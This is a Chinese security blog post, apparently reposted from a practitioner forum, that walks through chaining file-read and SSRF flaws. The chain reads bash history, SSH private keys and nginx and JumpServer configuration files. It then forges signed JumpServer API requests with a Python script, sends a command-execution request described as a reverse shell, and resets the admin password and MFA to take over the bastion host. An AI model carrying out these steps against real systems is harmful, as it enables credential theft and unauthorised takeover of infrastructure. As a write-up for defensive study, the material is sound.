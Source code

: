 #  文件读取漏洞实战利用   
subjcw  沃克学安全   2025-01-03 03:19  
  
## 申明：文章仅供技术交流，请自觉遵守网络安全相关法律法规，切勿利用文章内的相关技术从事非法活动，如因此产生的一切不良后果与文章作者无关。  
  
本文由subjcw师傅发表在奇安信攻防社区  
  
文章地址：https://forum.butian.net/share/4017  
#   
# Nginx配置文件利用  
  
第一处文件读取，严格来讲是SSRF（CVE-2021-27905），不过java环境下的SSRF利用有限，端口也只开放了443  
  
读取/root/.bash_history  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxbzGbrR7kIzdibvkXMica9y5hCtKJvRNhkmFuNNibJUD4icERw3hUdLAfvQ/640?wx_fmt=png&from=appmsg "")  
  
翻历史命令发现这台主机上有tomcat和nginx，tomcat也没办法利用，于是把目光转向nginx  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEax64oTyB9Q54ibKB25qPsLmvtFTMoGLo6z0sgBnP5T8cC81HNLyNOt2Jw/640?wx_fmt=png&from=appmsg "")  
  
读取nginx配置文件，获取了多个URL路由信息，分别对应不同的接口或应用  
  
其中有一个管理后台，通过XFF来过滤请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxlNaynGFQvJy8Y6FebkLPHqcQlWO8MRQGqrEbHnkayc3FiaUMblbFdlw/640?wx_fmt=png&from=appmsg "")  
  
添加XFF字段，访问到管理后台，弱口令拿下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxlkWUf6VU1WCmG1SRCDPZNAdHgyaHHTt41OP6t5oQdqcnPiazdGVxpcA/640?wx_fmt=png&from=appmsg "")  
# Jumpserver AccessKey利用  
  
第二个依旧是nginx的场景，多个域名解析到同一个IP，根据域名分发到不同的后端服务。  
  
读取/root/.bash_history  
，历史命令比较多，能看出来是经常使用的，还有多个ssh的公私钥  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEax8jPYe9ASepVANpYdghfPx9UA0Z7o2HicI2ZuZUPyNBG9ibNjlV5mcO0Q/640?wx_fmt=png&from=appmsg "")  
  
拼接路径，拿到SSH公私钥  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxAqmKsbWiaX8fD4Tks0tSCJSRbu9BVjcl1Cf0icRNcA4NdkGAbns91PPg/640?wx_fmt=png&from=appmsg "")  
  
读取/root/.ssh/authorized_keys  
可以发现获取到的公私钥与目标服务器的公钥匹配  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxdwiaB4bIc5yK9oHHgCMG1utw6Pib1384eDcUyxuPDRicFeBoKch9jBrVA/640?wx_fmt=png&from=appmsg "")  
  
尝试SSH直接登陆。多地ping了一下发现不是CDN，对目标的IP全端口扫描，发现SSH开在一个高端口，但是很遗憾登不上。这个SSH是Nginx服务器的，并不是漏洞所在的服务器。  
  
但是刚刚读authorized_keys  
和history  
的时候发现目标服务器部署了jumpserver  
，并且自身在jumpserver  
的管理范围内。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxRPpRQtPl3OEib82DFDGu5jtfkyMrYRL53GsvEuT3t8VsUl2dLI2mJibg/640?wx_fmt=png&from=appmsg "")  
  
  
查看收集到的资产，确实有一个jumpserver相关域名，解析IP与当前目标服务器为同一IP。现在就看能否获取jumpserver  
控制台权限。  
  
读取jumpserver配置文件/opt/jumpserver/config/config.txt  
，可以获取一些敏感信息如数据库、redis密码，但是jumpserver是容器化部署，没办法直接连上。  
  
除此之外就是SECRET_KEY  
和BOOTSTRAP_TOKEN  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxYzicd1GQdtzbFWiaqHqJhqmKQBMImQzb39hibdlXhY8lzfkNYp2F6rYEA/640?wx_fmt=png&from=appmsg "")  
  
  
看一下jumpserver  
官方文档中的说明  
  
参数说明 - JumpServer 文档  
  
（https://docs.jumpserver.org/zh/master/admin-guide/env/）  
```
SECRET_KEY=****           # 用来加密解密的 KEY
BOOTSTRAP_TOKEN=****      # koko/lion 用来向jms注册使用的 token
ACCESS_KEY_FILE=data/keys/.access_key  # ACCESS KEY 保存的地址, 默认注册后会保存到该文件中
```  
  
获取之后可以通过脚本调用接口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxEjvKh7tE1e6j27nMnlbhhkbKCmIuII25LwZ1xibnq2VBiawhfE4bsOcg/640?wx_fmt=png&from=appmsg "")  
  
jumpserver在jms_core  
容器中提供了命令行工具用于管理员管理用户，可以修改密码、清除MFA，也就是说只要获取jms_core  
容器权限，就可以重置Web管理员密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxfogx3WiaoJtL7kamqB2Uco2lcIzicsGPvYT2kR3p2c3GwGTiaHvzQLRuQ/640?wx_fmt=png&from=appmsg "")  
  
看一下python示例，通过使用KeyID和SecretID对请求方法、URL、accept、date进行签名。  
```
import requests, datetime, json
from httpsig.requests_auth import HTTPSignatureAuth
def get_auth(KeyID, SecretID):
    signature_headers = ['(request-target)', 'accept', 'date']
    auth = HTTPSignatureAuth(key_id=KeyID, secret=SecretID, algorithm='hmac-sha256', headers=signature_headers)
    return auth
response = requests.get(url, auth=auth, headers=headers)
```  
  
也就是说，只要保持请求方法、URL、accept、date不变，签名是可以重用的，可以简单写个python脚本获取sign，将burp作为上级代理捕获数据包后再手动调试数据包  
```
JMS_URL = '' 
X_JMS_ORG = ''
KEY_ID = ''
SECRET_ID = ''
headers = {
        'Accept': 'application/json',
        'X-JMS-ORG': X_JMS_ORG,
        'Date': datetime.now(timezone.utc).strftime('%a, %d %b %Y %H:%M:%S GMT')
    }
def get_auth():
    signature_headers = ['(request-target)', 'accept', 'date']
    auth = HTTPSignatureAuth(key_id=KEY_ID, secret=SECRET_ID, algorithm='hmac-sha256', headers=signature_headers)
    return auth
def get_request(url):
    auth = get_auth()
    full_url = f"{JMS_URL}{url}"
    print(full_url)
    response = requests.get(full_url, auth=auth, headers=headers, verify=False)
    response = requests.post(full_url, auth=auth, headers=headers, data=None, verify=False)
    print(response.text)
```  
  
读取jumpserver  
的accesskey  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxJSMINz0YHydr07u4gH0ASccWTBwOS0wicWicaicjcjXbbicWAJIhMLAgxw/640?wx_fmt=png&from=appmsg "")  
  
获取主机列表，这里可以读取/etc/hostname  
确认jumpserver  
的主机名，找到对应的主机id  
```
GET /api/v1/assets/assets/?offset\=0&amp;limit\=15&amp;display\=1&amp;draw\=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxyHyH9FDqEzvXicHdR7Ce913tvXKmxPWBpq1upypoTia4lcopd2f8IwtQ/640?wx_fmt=png&from=appmsg "")  
  
反弹shell，返回包中包含执行结果的url/api/v1/ops/celery/task//log/  
```
POST /api/v1/ops/command-executions/ HTTP/2
Host: 
User-Agent: python-requests/2.31.0
Accept: application/json
Date: 
Content-Length: 
Content-Type: application/x-www-form-urlencoded
Authorization: Signature
 
hosts=&amp;run_as=&amp;command=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxQsu9q4mlRyGAIP2xbse1WHWaXAFKZmtZ2ic8zgujBq4gYgfTEuNfN8g/640?wx_fmt=png&from=appmsg "")  
  
根据官方文档重置管理员密码，如果存在OTP同样可以通过manage.py进行重置。如果管理员开启了强制OTP，重置之后可以在登录后重新绑定。  
```
user.mfa_level='0'
user.otp_secret_key=''
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxcvu90xdQClYEJ2D7Ue3H413ltxa9iaCepLv4icfJlBN1NThY0ODSELPA/640?wx_fmt=png&from=appmsg "")  
  
最后以admin  
登录jumpserver  
控制台，接管堡垒机。  
# 小结  
  
文件读取漏洞在攻防场景下的影响比较有限，但是可以利用文件读取获取历史命令、私钥文件、配置文件等进一步攻击其他服务，继而获取权限或者数据。  
  
  
  
如果喜欢小编分享的文章，记得转发+点赞+关注支持一下哦~  
  
现在只对常读和  
星标的公众号才展示大图推送  
  
建议大家把  
公众号“设为星标”，否则可能错过一些好文哦  
  
  
